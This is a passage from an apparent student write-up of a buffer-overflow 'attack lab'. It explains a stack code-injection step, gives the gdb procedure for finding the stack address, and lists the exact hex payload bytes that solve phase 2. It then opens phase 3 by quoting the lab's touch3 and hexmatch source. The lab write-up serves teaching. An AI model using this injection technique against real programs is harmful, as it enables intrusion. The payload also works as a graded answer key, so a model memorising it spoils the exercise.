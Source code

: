 We can put our codes to `%rsp` and then make the `return address` pointing to that `%rsp`, like this:

```c
|  return: %rsp  |    // return address of after calling `get_buf`
|     ....       |   
|     ....       |
|     ....       |   
|     ret        |   
|     pushq      |
|     move       |    // %rsp
```

How to get the address of `%rsp`? Using **gdb**, `stepi` to `4017a8:  48 83 ec 28            sub    $0x28,%rsp`, then `p $rsp` and we get `0x5561dc78`

Now we can make the answer:

```c
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```

Note: if you use gdb to see `%rsp` after calling `getbuf`, you'll see

```c++
0x5561dc78:  0x48 0xc7 0xc7 0xfa 0x97 0xb9 0x59 0x68
0x5561dc80:  0xec 0x17 0x40 0x00 0xc3 0x00 0x00 0x00
0x5561dc88:  0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0x5561dc90:  0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0x5561dc98:  0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0x5561dca0:  0x78 0xdc 0x61 0x55 0x00 0x00 0x00 0x00
```

### phase_3

This phase needs us to call `touch3`, and pass the validation

```c
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    // "%.8x" means put the unsigned hex string of cookie to s
    sprintf(s, "%.8x", val);
    // When using strncmp, actually compare about the ascii
    // ascii string of cookie(ascii): 35 39 62 39 39 37 66 61
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)     //   address of touch3：0x4018fa
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
